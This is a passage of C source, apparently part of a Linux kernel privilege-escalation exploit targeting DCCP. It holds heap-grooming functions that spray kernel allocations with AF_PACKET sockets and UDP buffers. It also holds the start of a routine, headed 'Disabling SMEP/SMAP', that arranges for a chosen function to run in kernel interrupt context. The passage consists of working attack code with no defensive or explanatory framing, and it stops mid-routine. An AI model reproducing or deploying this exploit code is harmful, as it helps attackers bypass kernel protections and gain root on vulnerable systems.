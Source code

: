     }
    void timer_kmalloc_pad() {
        int i;
        for (i = 0; i < 4; i++) {
            socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ARP));
        }
    }
    void udp_kmalloc_pad() {
        int i, j;
        char dummy[2048];
        struct udp_fifo_handle uh[16];
        for (i = 0; i < KMALLOC_PAD / 16; i++) {
            udp_fifo_init(&uh[i]);
            for (j = 0; j < 16; j++)
                udp_fifo_kmalloc(&uh[i], &dummy[0]);
        }
    }
    void kmalloc_pad() {
        debug("dccp kmalloc pad");
        dccp_kmalloc_pad();
        debug("timer kmalloc pad");
        timer_kmalloc_pad();
        debug("udp kmalloc pad");
        udp_kmalloc_pad();
    }
    void udp_kmalloc_warm() {
        int i, j;
        char dummy[2048];
        struct udp_fifo_handle uh[16];
        for (i = 0; i < KMALLOC_WARM / 16; i++) {
            udp_fifo_init(&uh[i]);
            for (j = 0; j < 16; j++)
                udp_fifo_kmalloc(&uh[i], &dummy[0]);
        }
        for (i = 0; i < KMALLOC_WARM / 16; i++) {
            for (j = 0; j < 16; j++)
                udp_fifo_kfree(&uh[i]);
        }
    }
    void kmalloc_warm() {
        udp_kmalloc_warm();
    }
    // * * * * * * * * * * * * * Disabling SMEP/SMAP * * * * * * * * * * * * * * *
    // Executes func(arg) from interrupt context multiple times.
    void kernel_exec_irq(void *func, unsigned long arg) {
        int i;
        struct dccp_handle dh;
        struct udp_fifo_handle uh1, uh2, uh3, uh4;
        char dummy[2048];
        char buffer[2048];
        printf("[.] scheduling %p(%p)\n", func, (void *)arg);
        memset(&dummy[0], 0xc3, 2048);
        init_timer_buffer(&buffer[0], func, arg);
        udp_fifo_init(&uh1);
        udp_fifo_init(&uh2);
        udp_fifo_init(&uh3);
        udp_fifo_init(&uh4);
        debug("kmalloc pad");
        kmalloc_pad();
        debug("kmalloc warm");
        kmalloc_warm();
        debug("dccp init");
        dccp_init(&dh, port++);
        debug("dccp kmalloc kfree");